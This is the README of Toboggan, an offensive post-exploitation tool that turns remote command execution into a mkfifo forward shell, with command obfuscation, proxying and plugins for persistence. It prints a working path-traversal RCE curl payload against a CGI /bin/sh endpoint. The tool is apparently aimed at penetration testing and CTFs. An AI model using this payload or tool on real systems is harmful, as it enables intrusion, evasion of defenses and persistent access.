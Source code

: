 # Toboggan

🛝 Slide into post-exploitation from RCE with ease. Toboggan wraps your remote command execution into a upgradable dumb shell, sliding directly into post-exploitation phase. It allows you to fastly launch a `mkfifo` forward-shell inside a targeted Linux environment.

<p align="center">
    <img width="350" src="/media/toboggan-coin-nobg.png" alt="Toboggan Logo">
</p>

## Installation

Installing Toboggan is simple. You can install it directly from the repository:

```shell
pip install 'toboggan@git+https://github.com/n3rada/toboggan.git'
```

### Using [`pipx`](https://pypa.github.io/pipx/)

Be careful, it installs Python applications in isolated virtual environments, which means they do not have access to system-wide packages by default (like `psycopg2`).
```shell
pipx install 'git+https://github.com/n3rada/toboggan.git'
```

If you want-it to use system site packages, pass `--system-site-packages` when installing via `pipx`:
```shell
pipx install --system-site-packages 'git+https://github.com/n3rada/toboggan.git'
```

## Execution

Once installed, you can execute it using:
```shell
toboggan -m ~/phpexploit.py
```

When you are knowing what you are doing, you can also do:
```shell
toboggan -m ~/phpexploit.py --camouflage --fifo --os "linux" -wd /dev/shm/apache-tmp
```

It will start a FiFo named-pipe (a.k.a `mkfifo` shell, forward-shell) on `linux` (`--os`) remote system and obfuscating all commands (`--camouflage`) using the [hide.py](./toboggan/actions/hide/unix.py) actions.


### Wrap a shell command

If you are really lazy, you can directly wrap a shell command:
```shell
toboggan --exec-wrapper 'curl -s --path-as-is -d "echo Content-Type: text/plain; echo; ||cmd||" "http://192.168.216.188/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"'
```

### Proxy

You can forward to your favorite proxifier such as your favorite [`Squid`](https://www.squid-cache.org/) server using the `--proxy` parameter:

```shell
toboggan -m ~/phpexploit.py --proxy http://squideu.<something>.io:3128
```

### BurpSuite

To route traffic through Burp Suite:
```shell
toboggan -m ~/phpexploit.py --proxy
```

You can also directly import a Burp saved request that contains the `||cmd||` placeholder:
```shell
toboggan -r brequest
```

## 🔍 What is an RCE Python Module?

A Remote Code Execution (RCE) module is a Python script that defines how commands are sent to and executed on a remote system. Toboggan uses this module to wrap and streamline post-exploitation command execution.

To be compatible with Toboggan, your module must define a function with the following exact signature:

```python
def execute(command: str, timeout: float) -> str:
    """
    Execute a command remotely and return the output.
    
    Args:
        command (str): The command to execute.
        timeout (float): Execution timeout.

    Returns:
        str: The command output.
    """
```

This function will be called internally by Toboggan to execute commands remotely. It uses [`modwrap`](https://pypi.org/project/modwrap/) under the hood.

### Considerations

Your `execute()` function must handle all quirks of the target system.

- If space characters need to be replaced (e.g., with `${IFS}`), handle that inside the function.
- If special encoding is required (e.g., base64, hex), apply it before sending.
- If the system echoes extra characters or wraps the output, sanitize it.
- If the remote interface is slow or unreliable, tune the timeout.

The goal is for Toboggan to call your `execute()` function with any arbitrary command and get the correct output, as if you typed it in a shell.

## 🏗️ Making Dumb Shells Smarter

### Named Pipes for Semi-Interactive Shells

Toboggan uses named pipes (FIFO - First In, First Out) for inter-process communication (IPC). Named pipes are particularly useful when working with RCE over limited channels like HTTP requests or restricted command execution interfaces. It uses a `mkfifo` command under the hood. Also known as forward-shell style.

This allows Toboggan to simulate pseudo-TTY behavior, even in restricted environments behind firewalls. To enable named pipe mode, use the `--fifo` flag:
```shell
toboggan -m ~/phpexploit.py --fifo
```

Toboggan will create a FIFO-based communication channel, allowing you to interact with the remote system in a more dynamic way (e.g., using `sudo -l`).

## 🛠️ Bring Your Own Actions (BYOA)

Actions in Toboggan are modular plugins that allow you to extend its functionality. Actions can automate common post-exploitation tasks, such as downloading files, executing scripts, or setting up persistent access. Custom actions should be placed in `~/.local/share/toboggan/actions` (Linux) or `%APPDATA%\toboggan\actions` (Windows).

## Disclaimer

Toboggan is intended for use in legal penetration testing, Capture The Flag (CTF) competitions, or other authorized and ethical security assessments. Unauthorized use of this tool on systems you do not own or without proper authorization may be illegal. Please use "Toboggan" responsibly and in compliance with applicable laws and regulations.
